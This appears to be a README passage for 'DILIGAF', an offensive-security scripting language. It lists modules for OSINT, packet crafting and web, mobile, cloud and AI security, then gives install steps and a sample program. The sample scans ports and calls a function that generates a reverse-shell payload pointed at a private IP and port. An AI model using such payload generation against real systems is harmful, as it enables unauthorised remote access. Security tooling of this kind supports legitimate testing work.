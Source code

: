 ```
├── osint/
│   └── diligaf-osint.diligaf         # OSINT and intelligence
├── packet/
│   └── diligaf-packet.diligaf        # Packet crafting and analysis
├── web/
│   └── diligaf-web.diligaf           # Web application security
├── mobile/
│   └── diligaf-mobile.diligaf        # Mobile security
├── cloud/
│   └── diligaf-cloud.diligaf         # Cloud security
└── ai/
    └── diligaf-ai.diligaf            # AI/ML security
```

## 🚀 **Quick Start**

### **1. Install DILIGAF**
```bash
git clone https://github.com/yourusername/diligaf.git
cd diligaf
chmod +x install.sh
./install.sh
```

### **2. Install Core Libraries**
```bash
diligaf-pm install core
diligaf-pm install networking
diligaf-pm install crypto
diligaf-pm install exploit
```

### **3. Create Your First DILIGAF Program**
```diligaf
# hello.diligaf
stackit core
stackit net
stackit crypto

# System information
info = get_system_info()
print("Running on:", info["platform"])

# Network scan
open_ports = scan_common_ports("127.0.0.1")
print("Open ports on localhost:", open_ports)

# Encrypt a message
key = generate_key("aes", 256)
message = "Hello from DILIGAF!"
encrypted = encrypt_aes(message, key)
print("Encrypted message:", encrypted)

# Generate exploit payload
payload = generate_python_payload("reverse_shell", "192.168.1.100", 4444)
print("Generated payload:", payload)
```
